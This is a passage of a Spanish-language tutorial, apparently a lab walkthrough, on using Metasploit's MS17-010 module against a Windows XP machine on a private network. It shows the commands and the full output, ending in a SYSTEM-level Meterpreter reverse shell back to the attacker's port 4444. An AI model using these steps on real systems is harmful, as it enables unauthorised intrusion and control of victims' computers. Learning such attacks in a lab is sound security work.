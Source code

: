 
### De esa lista hay que elegir el módulo de exploit que vamos a usar.
### En este caso el primero que logré hacer funcionar fue el 1

`msf6 > use 2`

### Con el módulo seleccionado ahora hay apuntar la IP que vamos a atacar

`msf6 auxiliary(admin/smb/ms17_010_command) > set RHOSTS 192.168.1.15`

### Y ejecutamos el exploit, veremos si funciona

```
msf6 auxiliary(admin/smb/ms17_010_command) > exploit


[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] 192.168.1.15:445 - Target OS: Windows 5.1
[*] 192.168.1.15:445 - Filling barrel with fish... done
[*] 192.168.1.15:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.1.15:445 -  [*] Preparing dynamite...
[*] 192.168.1.15:445 -          [*] Trying stick 1 (x86)...Boom!
[*] 192.168.1.15:445 -  [+] Successfully Leaked Transaction!
[*] 192.168.1.15:445 -  [+] Successfully caught Fish-in-a-barrel
[*] 192.168.1.15:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.1.15:445 - Reading from CONNECTION struct at: 0x89575800
[*] 192.168.1.15:445 - Built a write-what-where primitive...
[+] 192.168.1.15:445 - Overwrite complete... SYSTEM session obtained!
[*] 192.168.1.15:445 - Selecting native target
[*] 192.168.1.15:445 - Uploading payload... BOReeVfl.exe
[*] 192.168.1.15:445 - Created \BOReeVfl.exe...
[+] 192.168.1.15:445 - Service started successfully...
[*] 192.168.1.15:445 - Deleting \BOReeVfl.exe...
[*] Sending stage (175686 bytes) to 192.168.1.15
[*] Meterpreter session 1 opened (192.168.1.11:4444 -> 192.168.1.15:1029) at 2022-12-07 18:14:15 -0500

meterpreter > Interrupt: use the 'exit' command to quit
meterpreter > 
```

### Si el exploit funcionó sin necesidad de mayores configuraciones veremos que el prompt de nuestra consola cambió a meterpreter.
### Ahora estamos dentro del meterpreter y podremos correr comandos que impactarán directo a la pc víctima.

### Podemos obtener la lista de usuarios:
